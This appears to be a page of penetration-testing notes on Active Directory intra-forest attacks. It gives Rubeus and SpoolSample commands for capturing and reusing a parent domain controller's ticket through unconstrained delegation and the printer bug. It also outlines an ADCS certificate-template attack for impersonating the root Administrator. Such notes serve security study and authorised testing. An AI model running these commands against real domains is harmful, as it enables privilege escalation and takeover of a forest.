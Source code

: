 ```yaml
---
description: >-
  Intra-forest allows for communication and resource sharing between multiple
  domains
---
```


# Intra Forest Attacks

### <mark style="color:yellow;">Unconstrained Delegation</mark>

This allows a service running under a user account to impersonate other users and access resources on their behalf.

{% hint style="info" %}
By default, all domain controllers have `Unconstrained Delegation` enabled
{% endhint %}

If a child DC with unconstrained delegation is compromised it possible to get the TGT of the administrator of a parent DC when it logs in, or use printer bug to coerce.

```powershell
# Monitor for tickets
.\Rubeus.exe monitor /interval:5 /nowrap

#  Coerce with printerbug
.\SpoolSample.exe dc01.zencorp.ad dc02.dev.zencorp.ad

# Monitor for tickets again
.\Rubeus.exe monitor /interval:5 /nowrap

# Renew ticket
.\Rubeus.exe renew /ticket:doIFvDCC<SNIP> /ptt
```

### <mark style="color:yellow;">ADCS</mark>

ADCS is a server role that can build a PKI or public key infrastructure using digital certificates. Details from `Certification Authorities (CAs)` and `Certificate Templates` are stored in LDAP. The attack:

1. Add new vulnerable template inside certificate templates container as `pKICertificateTemplate` object.
2. Give administrator user of child domain Full Control over that template
3. Publish the template to CA server by modifying `pKIEnrollmentService` object of the CA inside the `Enrollment Services` container.
4. Request the certificate for `root\Administrator` from the child domain.

<details><summary>The attack</summary></details>

### <mark style="color:yellow;">Configuration Naming Context (NC)</mark>
